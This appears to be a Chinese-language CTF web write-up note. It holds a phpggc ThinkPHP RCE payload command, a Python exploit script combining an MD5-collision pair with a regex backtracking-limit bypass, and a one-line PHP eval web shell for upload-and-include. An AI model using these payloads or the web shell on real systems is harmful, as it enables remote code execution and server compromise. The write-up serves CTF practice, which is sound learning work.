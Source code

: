 # Oyst3rPHP
	- 用phpggc生成一个payload，注意需要base64编码
		- ```shell
		  ./phpggc ThinkPHP/RCE4 system 'cat /*'
		  ```
	- 然后用 ((65d1dc32-93ea-4f09-baf9-fb484b8a10f6)) 绕md5
	- 最后绕preg_match, 用[[CTFWEB/PHP/正则匹配回溯次数绕过]]
	- ```python
	  url = "http://yuanshen.life:38725/"
	  
	  payload = encoder.base64_decode("这里是phpggc的payload")
	  a = b"\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2"
	  b = b"\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2"
	  
	  r = base_post(url, params = {
	      "left": a,
	      "right": b
	  }, data = {
	      "key": 'a' * 1000100 + "603THINKPHP",
	      "payload": encoder.base64_encode(payload)
	  })
	  print(r.text)
	  ```
- # 100％_upload
	- 把这个文件传上去然后include即可
		- ```shell
		  echo '123<?=eval($_GET[1])?>' > a.txt
		  ```
-
- # 没做
	- EZ_SSRF: 一眼php fpm ssrf
	- Not just unserialize: 打这个[[CTFWEB/从env到RCE]]
	-